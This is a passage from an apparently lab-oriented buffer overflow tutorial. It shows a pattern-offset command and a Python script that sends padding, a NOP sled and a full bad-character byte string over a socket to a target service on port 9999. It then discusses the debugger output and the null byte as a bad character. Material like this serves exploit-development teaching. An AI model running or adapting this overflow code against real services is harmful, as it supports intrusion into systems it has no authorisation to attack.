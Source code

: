 ``$ msf-pattern_offset -l 700  -q 35724134 `` 

![image](https://user-images.githubusercontent.com/67979878/129597717-e703bf8c-2b66-4bfc-a95d-c4b5dde5cfbf.png)


##### 2- bad characters check 


time to code :

````python
#!/bin/env python
import sys,socket

host="192.168.1.8"
port=9999
offset=524

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload  = "A"*offset
payload += "\x90"*30
payload += badchars

s=socket.socket()
s.connect((host,port))
s.send(payload)
print('[*] payload has been sent successfully')
s.close()
````
## note : 
before running the script any time make sure the immunity-debugger downleft side is `running` mode 

run last script and see follow esp in dump at the debuugger:

![image](https://user-images.githubusercontent.com/67979878/129598341-7c417113-0698-434d-909f-7118017f6c37.png)

as we can see all are the same chars we sent so we don't have bad characters , however `/x00`  is bad because it will ignore anything after it 'Terminating character'
